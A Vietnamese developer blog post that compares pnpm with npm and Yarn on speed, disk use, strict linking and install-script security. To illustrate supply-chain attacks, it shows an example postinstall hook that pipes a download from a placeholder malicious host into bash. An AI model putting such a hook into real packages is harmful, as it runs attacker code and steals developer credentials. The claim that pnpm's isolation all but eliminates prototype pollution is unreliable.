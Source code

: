 ﻿---
title: "PNPM – Khi Dev Không Cần Phải Chờ NPM “đi chợ” Giúp Mình Nữa"
description: "Khi thời gian cài đặt lâu như mẹ “đi chợ”, đã đến lúc để pnpm cáng đáng nhiệm vụ!"
pubDate: "2025-10-29"
published: true
tags: ["pnpm", "npm", "tooling", "package manager"]
slug: "pnpm-khi-dev-khong-can-cho-npm-di-cho-giup-minh-nua"
author: "Hien Nguyen"
ogTitle: "PNPM – Khi Dev Không Cần Phải Chờ NPM đi chợ Giúp Mình Nữa"
ogDescription: "Khi thời gian cài đặt lâu như mẹ “đi chợ”, đã đến lúc để pnpm cáng đáng nhiệm vụ!"
pairSlug:
  en: "pnpm-when-devs-stop-waiting-for-npm"
---

# ⚡ PNPM – Khi Dev Không Cần Phải Chờ NPM “Đi Chợ” Nữa

> “npm install” mà quạt CPU gào rú, disk sắp nổ tung — thì đã đến lúc bạn thử **pnpm**.

---

## 🧩 Câu Chuyện Quen Thuộc

Bạn clone một repo, chạy lệnh:

```bash
npm install
```

Và rồi... chờ.  
Chờ mãi.  
Chờ hoài.

Rồi bạn thử **Yarn**, thấy nhanh hơn tí, nhưng vẫn phải tải cùng một package 10 lần cho 10 dự án khác nhau.  
Ổ cứng ngày càng phình to, thư mục `node_modules` nặng cả GB, và CI thì chạy chậm như rùa bò.

Đó là bức tranh trước khi **pnpm** xuất hiện.

---

## 🚀 PNPM Khác Biệt Như Thế Nào Với NPM Và Yarn?

Tóm gọn: **pnpm sử dụng cách lưu dependency hoàn toàn khác biệt.**

| Cơ Chế          | NPM / Yarn                            | PNPM                                                                    |
| --------------- | ------------------------------------- | ----------------------------------------------------------------------- |
| Cách Lưu        | Copy riêng package cho từng dự án     | Sử dụng **global content-addressable store**, chỉ **symlink** vào dự án |
| Dung Lượng Disk | Nặng, lặp dữ liệu                     | Rất nhẹ, tiết kiệm ổ cứng                                               |
| Tốc Độ Cài Đặt  | Bình thường                           | **Nhanh hơn 2–3 lần** (nhờ cache + hard link)                           |
| Quản Lý Version | Theo từng dự án                       | Siêu chính xác nhờ **strict symlink resolution**                        |
| Bảo Mật Script  | **Tự động chạy `postinstall` script** | **Không tự động chạy trừ khi explicit**                                 |

---

## 🔒 Bảo Mật – Điểm Làm PNPM Thực Sự “Đáng Tiền”

Đây là phần mà nhiều dev **chưa chú ý nhưng cực kỳ quan trọng**.

### ❌ Vấn Đề Của NPM/Yarn:

Khi chạy `npm install` hoặc `yarn install`,  
các package có thể **tự động chạy script** như:

```json
"scripts": {
  "postinstall": "curl malicious-site.com | bash"
}
```

Nếu không kiểm soát kỹ hoặc CI không sandbox, bạn vừa mở cửa cho mã độc chạy trên máy mình. Gần đây, các vụ lừa đảo kiểu này diễn ra thường xuyên: dev pull source Node.js từ repo lạ (thường qua bài test hoặc bài tập), chạy `npm i` là "toang" – mã độc tự chạy, quét env variables để steal API keys, GitHub tokens, AWS credentials, thậm chí lan truyền như worm. Ví dụ, tháng 9/2025, một loạt package phổ biến như chalk, debug bị compromise, dẫn đến hàng trăm package khác bị nhiễm, đánh cắp credentials từ môi trường dev. Worm "Shai-Hulud" đã tự replicate, ảnh hưởng hàng triệu install, khiến bao nhiêu key và tài khoản bay màu chỉ vì scripts auto-run. Đây là **vector tấn công phổ biến** (supply chain attack), đặc biệt với dev mới hoặc team không audit dependencies.

### ✅ PNPM Xử Lý Thông Minh Hơn:

- **Không tự động chạy script**, trừ khi bạn **explicitly cho phép**.
- Có thể bật `--ignore-scripts` mặc định trong `.npmrc`:
  ```bash
  pnpm install --ignore-scripts
  ```
- Giúp **ngăn chặn code độc hại** từ dependency bên thứ ba ngay từ đầu – pull repo lạ về, chạy `pnpm i` thì mã độc nằm im, không steal keys hay lan truyền.
- Ngoài ra, pnpm sandbox hóa `node_modules`, hạn chế **module A override module B** — các kiểu tấn công như _prototype pollution_ hay _dependency shadowing_ gần như biến mất.

> 🧠 Nói cách khác: pnpm cài package, nhưng không “tin tưởng mù quáng” package đó – lý tưởng để tránh những vụ "toang" tài khoản gần đây.

---

## 🧠 Tư Duy Thiết Kế Khác Biệt

### 1️⃣ “Global Store” – Ổ Đĩa Thông Minh

PNPM có một nơi lưu trữ toàn cục (mặc định: `~/.pnpm-store`).  
Mỗi package chỉ tồn tại **một bản duy nhất** — các dự án chỉ “link” tới đó.

```bash
# Lần đầu
pnpm install

# Lần sau (với dự án khác)
pnpm install   # Gần như tức thì, vì package đã có sẵn
```

### 2️⃣ “Strict Linking” – Không Để Dependency Tràn Lan

PNPM tạo `node_modules` theo cấu trúc “virtual store” riêng:  
Dependency chỉ access được những gì khai báo trong `package.json`.  
Điều này giúp:

- Tránh lỗi “hidden dependency” (import module không khai báo).
- Build reproducible, CI không lo “chạy tốt trên máy A, fail trên máy B”.

---

## 🧰 Migration Nhanh Gọn

Nếu dự án đang dùng NPM/Yarn:

```bash
npm install -g pnpm
# Hoặc dùng corepack (Node 18+)
corepack enable pnpm
```

Chuyển sang dùng:

```bash
pnpm install
pnpm run dev
```

Tất cả script và config vẫn hoạt động bình thường.  
Bạn sẽ thấy tốc độ khác biệt ngay từ lần đầu.

---

## ⚖️ Khi Nào Chưa Cần Vội Chuyển Sang PNPM?

- Team đang dùng **workspace Yarn 1 + custom plugin** — cần test kỹ.
- Hệ thống CI/CD cũ chưa hỗ trợ pnpm cache.
- Một số tool (hiếm) vẫn assume cấu trúc `node_modules` truyền thống.

Tuy nhiên, với **Node 18+ và corepack**, việc dùng pnpm giờ đã cực kỳ mượt mà.  
Cả Vercel, Turborepo, NX, Cloudflare Workers đều hỗ trợ sẵn.

---

## 💬 Tổng Kết

|                 | NPM               | Yarn         | PNPM                                |
| --------------- | ----------------- | ------------ | ----------------------------------- |
| Tốc Độ          | 🐢                | ⚡           | 🚀                                  |
| Dung Lượng Disk | Nặng              | Trung bình   | Rất nhẹ                             |
| An Toàn Script  | Chạy tự động      | Chạy tự động | **Không auto-run**                  |
| Cache Toàn Cục  | ❌                | ✅ (partial) | ✅ (full)                           |
| Isolation       | Thấp              | Trung bình   | **Cao (symlink isolation)**         |
| Phù Hợp Với     | Mọi dự án nhỏ/lớn | Trung bình   | **Dev chuyên nghiệp / CI hiện đại** |

---

## 🔗 Tài Liệu Chính Thức

- [pnpm.io](https://pnpm.io)
- [Cấu trúc store của pnpm](https://pnpm.io/symlinked-node-modules-structure)
- [Corepack & pnpm setup](https://nodejs.org/api/corepack.html)

---

✍️ _Viết bởi một dev từng thấy `node_modules` nặng hơn cả source code.  
Giờ ổ cứng sạch sẽ, build nhanh chóng, CI êm ru – nhờ pnpm._
